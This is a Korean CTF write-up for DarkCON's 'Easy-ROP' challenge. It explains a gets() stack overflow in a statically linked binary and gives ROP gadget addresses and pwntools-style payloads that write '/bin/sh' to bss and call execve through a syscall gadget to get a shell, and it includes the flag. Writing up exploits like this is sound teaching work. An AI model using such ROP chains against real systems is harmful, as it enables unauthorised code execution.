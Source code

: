# [DarkCON CTF] Easy-ROP

## Info

+ 84 solves / 441 points

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

## Summary

+ stack buffer overflow
+ ret2libc
+ ret2syscall

## File

+ Arch : x86-64
+ Library : statically linked

## Checksec

+ CANARY : Enabled
+ FORTIRY : Disabled
+ NX : Enabled
+ PIE : Disabled
+ RELRO : Partial

## Description

바이너리에서 유의미한 함수는 하나뿐이다.

+ main

gets()에 의해 스택 버퍼 오버플로우가 발생한다.

## Exploit

**ROPgadget**

```python
syscall = 0x004012d3
prax = 0x004175eb
prdi = 0x0040191a
prsi = 0x0040f4be
prdx = 0x0047560e
```

rdi, rdi, rdx, rax를 제어할 수 있고, syscall 가젯 또한 존재하므로 "/bin/sh" 문자열이 존재한다면 문제를 해결할 수 있다.

**Write binsh at bss**

```python
payload = b"A"*0x48
payload += p64(prdi)
payload += p64(bss)
payload += p64(gets)
p.sendline(payload)

payload = b"/bin/sh\x00"
p.sendline(payload)
```

ret2libc를 통해 gets() 함수를 호출해 bss 영역에 binsh 문자열을 작성해주자. 이제 binsh 문자열의 주소를 system의 인자로 전달해 줄 수 있다.

**Call system("/bin/sh") using syscall gadget**

```python
payload += p64(prdi)
payload += p64(bss)
payload += p64(prsi)
payload += p64(0)
payload += p64(prdx)
payload += p64(0) + p64(0) + p64(0)
payload += p64(prax)
payload += p64(0x3b)
payload += p64(syscall)
p.sendline(payload)
```

마지막으로 syscall과 binsh를 이용해 system("/bin/sh")를 호출하면 쉘을 취득할 수 있다.

## Flag

+ darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
